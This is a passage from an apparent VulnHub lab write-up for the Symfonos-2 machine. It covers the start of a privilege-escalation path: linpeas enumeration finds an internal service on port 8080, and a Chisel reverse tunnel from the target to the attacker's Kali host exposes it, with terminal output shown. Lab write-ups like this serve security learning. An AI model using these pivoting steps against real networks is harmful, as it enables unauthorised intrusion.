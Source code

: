 
# Privilege Escalation
## Cronus - Via LibreNMS CMS Authenticated RCE 
1. Ran linpeas
	![](images/Pasted%20image%2020220124014537.png)
	- `127.0.0.1:8080`
	- `apache2` running as `cronus`
2. Open up the internal service w/ Chisel
	1. Kali
		```
		┌──(root💀kali)-[~/vulnHub/Symfonos-2/192.168.236.7/loot/smb]
		└─# chisel server --reverse --port 1337
		2022/01/24 00:59:48 server: Reverse tunnelling enabled
		2022/01/24 00:59:48 server: Fingerprint zUwTnSwJD7AhStYF+Mrpe5iyr4aIGUEHlvhXnP7dGhk=
		2022/01/24 00:59:48 server: Listening on http://0.0.0.0:1337
		2022/01/24 01:00:31 server: session#1: Client version (1.7.6) differs from server version (0.0.0-src)
		2022/01/24 01:00:31 server: session#1: tun: proxy#R:8888=>8080: Listening
		```
	2. Target
		```
		aeolus@symfonos2:~$ ./chiselLinux64 client 192.168.236.4:1337 R:8888:127.0.0.1:8080 &
		[1] 2242
		